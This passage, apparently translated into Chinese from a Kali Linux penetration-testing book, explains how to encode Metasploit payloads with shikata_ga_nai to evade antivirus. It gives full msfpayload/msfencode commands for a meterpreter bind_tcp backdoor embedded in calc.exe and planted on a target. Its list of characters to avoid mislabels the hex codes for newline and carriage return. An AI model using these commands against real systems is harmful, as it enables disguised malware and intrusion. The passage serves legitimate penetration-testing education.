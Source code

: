 有几个不同的选项用于编码有效负载，如以下屏幕截图所示：

![Creating a standalone persistent agent with Metasploit](graphics/3121OS_06_16.jpg)

要查看可用选项，请使用`show encoders`命令。

Metasploit 使用大约 30 种不同的编码器；默认情况下，如果未指定编码器，它将选择最合适的编码器。

一个好的通用编码器是`shikata_ga_nai`。该编码器针对 4 字节密钥实现多态异或加性反馈编码，是 Metasploit 唯一一个评为“优秀”的编码器。

要对先前准备的`attack.exe`代理进行编码，我们使用以下命令：

```
msf>msfencode -i attack.exe -o encoded_attack.exe -e
  x86/shikata_ga_nai -c 5 -t exe 

```

这将使用`shikata_ga_nai`协议对`attack.exe`代理进行五次编码。每次它被重新编码，就变得更加难以检测。但是，可执行文件的大小也会增加。

完全有效负载可以直接从 Kali 中的命令行创建。不仅可以对其进行编码，还可以配置编码模式以避免某些字符。例如，在编码持久代理时，应避免使用以下字符，因为它们可能导致攻击的发现和失败：

*   `\x00`表示一个 0 字节的地址
*   `\xa0`表示换行
*   `\xad`表示回车

要创建多重编码的有效负载，请使用以下命令：

```
msf>msfpayload windows/meterpreter/bind_tcp
  LPORT=444 R| msfencode -e x86/shikata_ga_nai -c 5 -t raw -a
  x86 -b '\x00\x0a\x0d' -c 5 -x /root/Desktop/attack.exe -o
  /root/Desktop/encoded_attack.exe 

```

您还可以将`msfpayload`编码到现有的可执行文件中，修改后的可执行文件和持久代理都将正常工作。要将持久代理绑定到计算器（`calc.exe`等可执行文件，请首先将适当的`calc.exe`文件复制到位于`/usr/share/metasploit-framework/data/templates`的 Metasploit 模板文件夹中。模板就位后，请使用以下命令：

```
msf>msfpayload windows/meterpreter/bind_tcp
  LPORT=444 R| msfencode -t exe -* calc.exe -k -o
  encoded_calc_attack.exe -e x86/shikata_ga_nai -c 5 

```

代理可以放置在目标系统上，重命名为`calc.exe`以替换原来的计算器，然后执行。

不幸的是，客户端防病毒软件几乎可以检测到所有 Metasploit 编码的可执行文件。这归因于渗透测试人员向 VirusTotal（[www.VirusTotal.com](http://www.virustotal.com)等网站提交了加密有效载荷。但是，您可以创建一个可执行文件，然后使用面纱规避对其进行加密，如[第 4 章](04.html "Chapter 4. Exploit")、*利用*中所述。

# 重定向端口以绕过网络控制

到目前为止，我们已经检查了对被攻击系统的远程控制访问，就好像我们在受害者和攻击者的机器之间有直接连接一样；然而，这种连接经常由网络设备（如防火墙）控制或阻止。

攻击者可以使用端口重定向绕过这些控制，端口重定向是一个指定的系统，侦听定义的端口并将原始数据包转发到特定的辅助位置。

Kali 提供了几种支持端口重定向的工具，包括`nc`、`cryptcat`、`socat`、`ssh`、`fpipe`和 Metasploit 的`meterpreter`；我们将在以下部分中查看一些示例。
